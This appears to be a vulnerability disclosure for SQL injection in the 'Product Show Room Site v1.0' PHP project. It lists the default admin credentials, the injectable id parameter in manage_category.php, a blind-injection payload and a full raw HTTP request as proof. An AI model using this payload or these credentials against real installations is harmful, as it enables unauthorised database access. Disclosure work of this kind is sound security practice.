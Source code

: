 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/manage_category.php?id=

Vulnerability location: /psrs/admin/categories/manage_category.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/categories/manage_category.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/manage_category.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 2070
![image](https://user-images.githubusercontent.com/54017627/171829566-c5f70e8b-cb0a-436d-8216-ff3c5127974c.png)

![image](https://user-images.githubusercontent.com/54017627/171829639-621d2a72-d2fe-40a8-8e74-f20e6dad0962.png)

When length (database ()) = 7, Content-Length: 2083
![image](https://user-images.githubusercontent.com/54017627/171829535-aae1ebba-ca62-4889-9373-d43ced83fbb9.png)

![image](https://user-images.githubusercontent.com/54017627/171829599-380eaf5f-856c-485a-a24e-6db8dd83ec56.png)
